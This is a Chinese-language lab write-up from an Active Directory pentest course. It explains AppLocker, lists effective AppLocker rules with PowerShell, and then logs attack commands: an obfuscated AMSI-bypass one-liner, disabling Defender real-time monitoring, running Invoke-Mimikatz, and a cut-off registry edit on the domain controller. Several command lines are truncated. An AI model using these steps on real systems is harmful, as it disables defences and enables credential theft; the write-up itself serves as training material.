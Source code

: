 ```

> 什么是Applocker策略？
> AppLocker 可推进软件限制策略的应用控制特性和功能。 AppLocker 包含新的功能和扩展，允许你创建规则以允许或拒绝应用基于文件的唯一标识运行，并指定哪些用户或组可以运行这些应用
> 使用 AppLocker，你可以：
> 控制以下类型的应用：可执行文件（.exe 和 .com) 、 scripts (.js、.ps1、.vbs、.cmd 和 .bat) 、Windows Installer 文件 (.mst、.msi 和 .msp) 以及 DLL 文件（.dll 和 .ocx) ），以及打包的应用和封装应用安装程序 (appx) 。
> 根据从数字签名派生的文件属性（包括发布者、产品名称、文件名和文件版本）定义规则。 例如，可以创建基于通过更新持久化发布者属性的规则，也可以为文件的特定版本创建规则。
> 向安全组或单个用户分配规则。
> 创建规则异常。 例如，您可以创建一个规则，允许除注册表编辑器 (Regedit.exe Windows之外的所有进程运行) 。
> 使用仅审核模式部署策略，并在强制执行它之前了解其影响。
> 导入和导出规则。 导入和导出会影响整个策略。 例如，如果导出策略，将导出所有规则集合的所有规则，包括规则集合的强制设置。 如果导入策略，将覆盖现有策略的所有条件。
> 通过使用 cmdlet 简化 AppLocker 规则的创建Windows PowerShell管理。

下面命令枚举所有Applocker策略

```
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections


PublisherConditions : {*\O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US\*,*}
PublisherExceptions : {}
PathExceptions      : {}
HashExceptions      : {}
Id                  : 5a9340f3-f6a7-4892-84ac-0fffd51d9584
Name                : Signed by O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US
Description         :
UserOrGroupSid      : S-1-1-0
Action              : Allow

PublisherConditions : {*\O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US\*,*}
PublisherExceptions : {}
PathExceptions      : {}
HashExceptions      : {}
Id                  : 10541a9a-69a9-44e2-a2da-5538234e1ebc
Name                : Signed by O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US
Description         :
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%PROGRAMFILES%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 06dce67b-934c-454f-a263-2515c8796a5d
Name                : (Default Rule) All scripts located in the Program Files folder
Description         : Allows members of the Everyone group to run scripts that are located in the Program Files folder.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%WINDIR%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 9428c672-5fc3-47f4-808a-a0011f36dd2c
Name                : (Default Rule) All scripts located in the Windows folder
Description         : Allows members of the Everyone group to run scripts that are located in the Windows folder.
UserOrGroupSid      : S-1-1-0
Action              : Allow
```


从上面枚举的策略可以看到，只有```{%PROGRAMFILES%\*}```和```{%WINDIR%\*}```可以执行脚本

但是因为Constrained Language Mode，CLM，就算能把脚本拷贝到靶机，我们也不能执行，因为dcorp-adminsrv有CLM
```

[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> ipconfig
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami /all
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> powershell -ep bypass
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`B
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> hostname
[dcorp-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','r
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\